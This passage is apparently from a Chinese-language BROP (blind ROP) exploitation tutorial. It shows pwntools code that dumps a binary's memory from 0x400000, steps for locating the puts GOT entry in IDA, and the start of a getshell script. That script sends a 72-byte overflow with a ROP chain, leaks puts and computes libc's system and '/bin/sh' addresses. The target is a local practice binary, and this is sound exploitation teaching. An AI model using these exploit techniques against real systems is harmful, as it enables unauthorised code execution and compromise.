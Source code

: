 ```python
result = '' #准备一个空字符串接收dump出来的代码
while addr < 0x401000: #从0x400000开始泄露0x1000个字节，足以包含程序的plt部分
    print hex(addr)
    data = leak(length,rdi_ret,puts_plt,addr,stop_gadget)
    if data is None:#判断接收字符是否为空
        result += '\x00'
        addr += 1
        continue
    else:
        result += data#接收字符串
    addr += len(data)#addr+接收字符串个数，避免接收重复的字符串

with open('dump','wb') as f:#在当前目录下以二进制形式向dump文件中写
    f.write(result)
```

在执行完后会在本地当前目录下得到一个名为"dump"的文件:

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598333680757-d4ad14ca-c7b7-4002-8a57-57f8208c5e5a.png)

这个文件就是我们dump出来的文件，其实你可以把他比作Windows下脱壳之后的文件。虽然在实际情况下我们看不到二进制文件，但是我们dump出来的plt段的内容可以使用IDA进行查看。将hollk文件拖进64位IDA，选择binary File形式打开，选择64-bit mode

接下来需要给hollk文件设置基地址，因为我们是从0x400000处开始dump的，所以基地址就设为0x400000

设置步骤：edit->segments->rebase program 将程序的基地址改为 0x400000

由于我们之前找到了puts函数的plt地址0x400570，所以我们找到偏移0x570处

选中0x560，按c键，将此处数据转换为汇编指令

我们就可以看到puts_plt地址中jmp指令后面接的puts_got地址了，0x601018

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598355409112-155238b9-ec72-4252-9adf-27fc0fb3a54b.png)

## 6、查询libc版本
> libc版本可以在这里查询：[https://libc.blukat.me/](https://libc.blukat.me/)
>

由于我们是本地pwn，所以就不需要查询libc版本，直接调用本地的就行

## 7、getshell
```python
from pwn import*
from LibcSearcher import*
context.log_level = "debug"

p = process('./brop')
puts_plt = 0x400570
puts_got = 0x601018
brop_gadget = 0x4007ba
stop_gadget = 0x4005d0
rdi_ret = brop_gadget + 9
payload = 'a'*72 + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(stop_gadget)
p.recvuntil("password?\n")
p.sendline(payload)
data = p.recv(6).ljust(8,'\x00')
p.recv()
puts_addr = u64(data)
print "puts address :0x%x"%puts_addr

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc_base = puts_addr - libc.symbols['puts']
system  = libc_base + libc.symbols['system']
binsh = next(libc.search('/bin/sh'))+libc_base
```